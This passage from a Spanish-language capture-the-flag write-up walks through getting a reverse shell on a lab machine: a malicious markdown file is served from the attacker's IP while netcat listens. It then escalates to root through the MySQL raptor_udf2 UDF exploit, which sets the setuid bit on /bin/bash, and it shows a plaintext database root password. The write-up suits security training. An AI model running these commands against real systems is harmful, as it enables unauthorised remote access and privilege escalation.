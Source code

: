 Levantamos un servidor con python:
```shell
rabb1t@hold:~$ python3 -m http.server
```
Y en otra ventana debemos ponernos en "escucha" con `netcat` en el puerto que específicamos dentro del archivo malicioso, `4433`:
```shell
rabb1t@hold:~$ netcat -lnvp 4433
```

Y en el campo _URL_ ponemos lo siguiente `http://10.10.14.44:8000/rev.md` (que es nuestra IP, el puerto del servidor y el archivo malicioso, respectivamente). Presionamos en `exportar` y obtenemos una conexión remota: 
```shell
rabb1t@hold:~$ netcat -lnvp 4433
Listening on 0.0.0.0 4433
Connection received on 10.10.11.160 49170
bash: cannot set terminal process group (1261): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$
```

## Escalando privilegios
Después de hacer una enumeración básica, no encontramos nada de lo que nos podamos aprovechar.
Recordemos que tenemos credenciales para conectarnos a la base de datos. Hay una técnica de [escalada](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library) de privilegios mediante `MySQL` que podemos probar usando [este exploit](https://www.exploit-db.com/exploits/1518), subiendo el archivo a la máquina víctima y haciendo lo siguiente:

```shell
svc@noter:~/tmp$ gcc -g -c raptor_udf2.c
svc@noter:~/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:~/tmp$ mysql -u 'root' -p'Nildogg36'

MariaDB [(none)]> use mysql;
Database changed

MariaDB [mysql]> create table test(line blob);
Query OK, 0 rows affected

MariaDB [mysql]> insert into test values(load_file('/home/tmp/raptor_udf2.so'));
Query OK, 1 row affected

MariaDB [mysql]> select * from test into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected

MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+

MariaDB [mysql]> exit
Bye
```
